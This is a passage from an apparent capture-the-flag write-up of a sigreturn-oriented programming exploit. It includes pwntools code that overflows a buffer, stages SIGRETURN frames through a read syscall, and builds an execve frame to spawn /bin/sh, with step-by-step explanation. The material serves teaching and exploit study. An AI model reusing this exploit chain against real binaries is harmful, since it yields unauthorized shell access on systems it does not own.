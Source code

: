 ```python

First, reset binary to into a read state.  To this read, we will
soon pass 15 bytes to manipulate RAX (read return value of # bytes read)

Next, ret to a syscall to trigger the SIGRETURN
Also, send the SIGRETURN Frame 
"""
log.info("Sending stage 2 which seeds the first SIGRETURN frame")
pause(SLEEP)
data = b"A" * OFFSET
data += p64(ret2read)
data += p64(syscall)
data += sigreturn_read(stack_leak)
p.send(data)
```

Now we trigger the SIGRET by sending 15 bytes (remember the SIGRET number is 15 and the return
value of `SYS_read` is the number of bytes read, and this return value gets stored in RAX)

```python
"""
Trigger SIGRETURN by sending 15 bytes to the binary when it's
reading, which sets RAX to 15. When execution meets a syscall
instruction, the frame above will replace all the register values
"""
log.info("Triggering the first SIGRETURN by sending 15 junk bytes")
pause(SLEEP)
p.send(b'B' * constants.SYS_rt_sigreturn)
```

The SIGRET frame we built earlier has now been pulled into the registers. 

```
rax = 0 # SYS_read
rdi = 0 # STDIN File Descriptor
rsi = our calculated page-start address
rdx = 2000 # arg to sys_READ for how many bytes to read
rsp = our calculated page-start address
rip = our syscall address
```

Execution continues to a `syscall` instruction, because that's where we set RIP in our frame. Given
our now known stack-base, we can now build out our own stack and track our own offsets. We'll set
up another SYS_read which will read 15 bytes to set RAX and then ret to a syscall to trigger the
SIGRETURN. We can calculate where the end of the payload (previous 2 instruction plus our custom
stack frame) will be. Once triggered, `/bin/sh` will be at RSP.

```python 
"""
Build a SYS_execve SIGRETURN frame that will execute /bin/sh
The binsh address in the stack will eventually hold '/bin/sh'
followed by a pointer to null, followed by a pointer to binsh's
pointer, in order to satisfy execve's second argument, and array
of args, hence the +16
execve(*program, *args{program, null}, null)
"""
def sigreturn_execve(binsh_addr):
    frame = SigreturnFrame()
    frame.rax = constants.SYS_execve
    frame.rdi = binsh_addr
    frame.rsi = binsh_addr + 16
    frame.rdx = 0
    frame.rip = syscall
    return frame


binsh = b"/bin/sh\x00"
```